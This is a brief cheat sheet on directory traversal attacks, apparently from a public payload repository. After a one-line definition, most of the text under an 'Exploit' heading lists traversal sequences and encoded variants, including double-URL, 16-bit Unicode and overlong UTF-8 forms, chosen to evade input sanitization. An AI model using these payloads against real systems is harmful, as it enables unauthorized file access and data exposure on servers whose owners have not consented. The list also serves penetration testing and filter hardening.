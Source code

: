 # Traversal Directory

A directory traversal consists in exploiting insufficient security validation / sanitization of user-supplied input file names, so that characters representing "traverse to parent directory" are passed through to the file APIs.

## Exploit

Basic

```powershell
../
..\
..\/
%2e%2e%2f
%252e%252e%252f
%c0%ae%c0%ae%c0%af
%uff0e%uff0e%u2215
%uff0e%uff0e%u2216
..././
...\.\
```

16 bit Unicode encoding

```powershell
. = %u002e
/ = %u2215
\ = %u2216
```

Double URL encoding

```powershell
. = %252e
/ = %252f
\ = %255c
```

UTF-8 Unicode encoding

```powershell
. = %c0%2e, %e0%40%ae, %c0ae
/ = %c0%af, %e0%80%af, %c0%2f
\ = %c0%5c, %c0%80%5c
```

## Thanks to

* [Directory traversal attack - Wikipedia](https://en.wikipedia.org/wiki/Directory_traversal_attack)
